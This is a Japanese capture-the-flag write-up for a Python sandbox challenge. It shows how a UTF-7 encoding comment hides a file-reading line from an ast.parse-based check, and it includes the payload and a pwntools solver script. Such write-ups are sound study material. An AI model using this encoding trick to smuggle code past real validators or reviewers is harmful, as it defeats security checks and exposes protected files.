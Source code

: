 `ast.parse`の挙動を色々試してみると、どうやらコメントの情報は消えることがわかります。
ところで、Pythonにはmagic commentと呼ばれるエンコーディングを指定する機能があります:

- https://docs.python.org/3/reference/lexical_analysis.html#encoding-declarations
- https://docs.python.org/3/library/codecs.html#standard-encodings

magic commentは`get_fn_name`の判定時は単なるコメントですが、
```python
    spec = util.spec_from_file_location("tmp", file.name)
    spec.loader.exec_module(util.module_from_spec(spec))
```
ではmagic commentとして認識されるので、その解釈の差異をつくことによってbypassができそうです。

実際、UTF-7を使うと以下でbypassできます:
```
# coding: utf_7
def f(x):
    return x
    #+AAo-print(open("/flag.txt").read())
__EOF__
```

`+AAo-`はUTF-7だと`\n`の改行文字に相当するので、モジュールとしては
```python
def f(x):
    return x

print(open("/flag.txt").read())
```
として解釈されます。紀元前に流行ったXSSテクニックの応用です。

その他、`raw_unicode_escape`や`unicode_escape`などでもbypassが可能です。

### Solver

```python
import os
import pwn

io = pwn.remote(os.getenv("SECCON_HOST"), os.getenv("SECCON_PORT"))

assert b"+AAo-".decode("utf_7") == "\n"

payload = """
# -*- coding: utf_7 -*-
def f(x):
    return x
    #+AAo-print(open("/flag.txt").read())
""".lstrip()

payload += "__EOF__"

io.sendlineafter(b"__EOF__):", payload.encode())

print(io.recvall().decode())
```
